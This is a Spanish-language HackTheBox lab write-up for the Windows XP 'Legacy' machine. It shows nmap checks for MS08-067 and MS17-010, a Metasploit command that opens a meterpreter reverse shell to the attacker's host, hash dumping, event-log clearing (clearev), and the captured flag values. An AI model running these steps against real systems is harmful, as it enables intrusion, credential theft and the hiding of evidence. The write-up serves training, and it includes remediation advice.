 # HTB — Legacy (Windows XP) 🟦
> **Box IP:** `10.129.227.181`  
> **Fecha:** 2025-09-14 08:47:47 -0300 (America/Argentina/Buenos_Aires)  
> **Objetivo:** Obtener `user.txt` y `root.txt` explotando **MS08-067** (alternativa: **MS17-010 psexec**).  
> ⚠️ Uso ético en laboratorio/HTB.

---

## 0) Estructura de trabajo
```bash
cd ~/Desktop/Maquinas/Legacy
mkdir -p scans loot
export TARGET=10.129.227.181
# (opcional) detectar tu LHOST de tun0
export LHOST=$(ip -br a show tun0 | awk '{print $3}' | cut -d/ -f1); echo $LHOST
```

## 1) Recon y confirmación de vulnerabilidades
```bash
# Puertos y servicios relevantes
nmap -p135,139,445 -sCV -Pn -n $TARGET -oN scans/targeted.txt

# Chequeo de MS08-067 y MS17-010
nmap --script smb-vuln-ms08-067,smb-vuln-ms17-010 -p445 -Pn -n "$TARGET" -oN scans/vuln.txt
batcat scans/vuln.txt
```
**Hallazgos:** `VULNERABLE` a **MS08-067** y **MS17-010** (SMBv1).

## 2) Explotación (ruta recomendada) — MS08-067
```bash
msfconsole -q -x "
use exploit/windows/smb/ms08_067_netapi;
set RHOSTS $TARGET;
set RPORT 445;
set LHOST $LHOST;
set PAYLOAD windows/meterpreter/reverse_tcp;
run;"
```
Notas:
- Si no entra a la primera: `show targets` y probar XP SP2/SP3 específico.
- Payload alternativo: `windows/meterpreter/reverse_http`.
- La opción `ExitOnSession` no aplica a este módulo (warning seguro de ignorar).

## 3) Sesión y estabilización
Salida clave:
```text
Server username: NT AUTHORITY\SYSTEM
OS: Windows XP SP3 x86 (LEGACY)
```
Recomendado (si es necesario):
```text
ps
migrate 1236      # spoolsv.exe (estable en XP)
getuid
```

## 4) Búsqueda y lectura de flags
Con Meterpreter:
```text
search -d "C:\\Documents and Settings" -f user.txt
search -d "C:\\Documents and Settings" -f root.txt

cat "C:\\Documents and Settings\\john\\Desktop\\user.txt"
cat "C:\\Documents and Settings\\Administrator\\Desktop\\root.txt"
```
Con `shell` (cmd):
```text
for /r "C:\\Documents and Settings" %f in (user.txt) do @type "%f"
type "C:\\Documents and Settings\\Administrator\\Desktop\\root.txt"
```

## 5) Evidencias y extracción
```bash
# En tu host (crear carpeta si no existe)
mkdir -p loot

# En meterpreter (descargar flags)
download "C:\\Documents and Settings\\john\\Desktop\\user.txt" loot/
download "C:\\Documents and Settings\\Administrator\\Desktop\\root.txt" loot/
```

## 6) (Opcional) Hashes y limpieza (solo lab/HTB)
```text
getsystem
hashdump
clearev
```

## 7) Remediación (para informe)
- **MS08-067**: aplicar parche **KB958644** (obsoleto para XP, pero clave históricamente).
- **MS17-010 (SMBv1)**: deshabilitar **SMBv1** y aplicar acumulativos 2017.
- Restringir 445 desde redes no confiables; segmentación; EDR/AV; hardening de servicios RPC/SMB.

## 8) Checklist
- [x] Recon puertos 135/139/445
- [x] Confirmar MS08-067 / MS17-010 → **VULNERABLE**
- [x] Explotar **MS08-067** (meterpreter)
- [x] Verificar privilegios (**NT AUTHORITY\SYSTEM**)
- [x] Leer `user.txt` (john) y `root.txt` (Administrator)
- [x] Descargar evidencias a `loot/`
- [x] (Opcional) hashdump / clearev
- [x] Redactar remediación

---

### Notas técnicas
- XP usa **`C:\\Documents and Settings`** (no `Users`).  
- `message_signing: disabled` en SMB facilita explotación (hallazgo típico en scans).  
- Si `reverse_tcp` no conecta, validar `LHOST` (tun0) o cambiar a `reverse_http`.


## 4b) Flags obtenidas (HTB Legacy)
- **user.txt (john):** `e69af0e4f443de7e36876fda4ec7644f`
- **root.txt (Administrator):** `993442d258b0e0ec917cae9e695d5713`

